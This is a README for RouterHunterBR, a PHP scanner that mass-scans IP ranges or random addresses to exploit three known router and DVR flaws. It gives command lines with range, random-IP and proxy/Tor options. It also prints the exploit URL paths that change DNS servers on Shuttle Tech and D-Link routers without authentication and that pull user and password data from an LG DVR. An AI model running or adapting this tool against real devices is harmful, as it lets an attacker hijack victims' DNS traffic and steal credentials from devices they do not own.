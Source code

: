# RouterHunterBR
TOOL - Unauthenticated Remote DNS change/ users & passwords.

 * Script exploit developed by INURL - BRAZIL
 * Script Name: SCANNER RouterHunterBR 1.0
 * TIPE: TOOL - Unauthenticated Remote DNS change/ users & passwords 
 * AUTOR*: Cleiton Pinheiro / NICK: GoogleINURL
 * AUTOR: Jhonathan davi / NICK: Jhoon
 * EMAIL*: inurllbr@gmail.com
 * Blog*: http://blog.inurl.com.br
 * Twitter*: https://twitter.com/googleinurl
 * Fanpage*: https://fb.com/InurlBrasil
 * GIT*: https://github.com/googleinurl
 * PASTEBIN*: http://pastebin.com/u/googleinurl
 * YOUTUBE* https://www.youtube.com/channel/UCFP-WEzs5Ikdqw0HBLImGGA
 * PACKETSTORMSECURITY:* http://packetstormsecurity.com/user/googleinurl/


- Description:
------
  The script explores three vulnerabilities in routers
 * 01 - Shuttle Tech ADSL Modem-Router 915 WM / Unauthenticated Remote DNS Change Exploit

  reference: http://www.exploit-db.com/exploits/35995/

 * 02 - D-Link DSL-2740R / Unauthenticated Remote DNS Change Exploit

  reference: http://www.exploit-db.com/exploits/35917/

 * 03 - LG DVR LE6016D / Unauthenticated users/passwords disclosure exploitit

  reference: http://www.exploit-db.com/exploits/36014/

- Execute:
------
```
  Simple search:   php RouterHunterBR.php --range '177.100.255.1-20' --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt

  Set IPS random:  php RouterHunterBR.php --rand --limit-ip 200 --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt
  
  Set source file: php RouterHunterBR.php --file ips.txt --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt
  
  Set proxy:       php RouterHunterBR.php --range '177.100.255.1-20' --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt --proxy 'localhost:8118'
  
  Proxy format:
   --proxy 'localhost:8118'
   --proxy 'socks5://googleinurl@localhost:9050'
   --proxy 'http://admin:12334@172.16.0.90:8080'
  
```

- Dependencies:
------
```
  sudo apt-get install curl libcurl3 libcurl3-dev php5 php5-cli php5-curl033
```
- EDITING TO ADD NEW EXPLOITS GETS:
------
```
TO DEFINE MORE EXPLOITS GET:
EX: $params['exploit_model']['model_name'] = 'file_exploit.php';
$params['exploit_model']['model_001'] = '/file001CGI.cgi';
$params['exploit_model']['model_002'] = '/file001php.php';
$params['exploit_model']['model_003'] = '/file001.html';

#DEFINITION OF EXPLOITS
line 92: $params['exploit_model']['Shuttle_Tech_ADSL_Modem_Router_915_WM'] = "/dnscfg.cgi?dnsPrimary={$params['dns1']}&dnsSecondary={$params['dns2']}&dnsDynamic=0&dnsRefresh=1";
line 93: $params['exploit_model']['D_Link_DSL_2740R'] = "/dns_1?Enable_DNSFollowing=1&dnsPrimary={$params['dns1']}&dnsSecondary={$params['dns2']}";
line 94: $params['exploit_model']['LG_DVR_LE6016D'] = "/dvr/wwwroot/user.cgi";

```
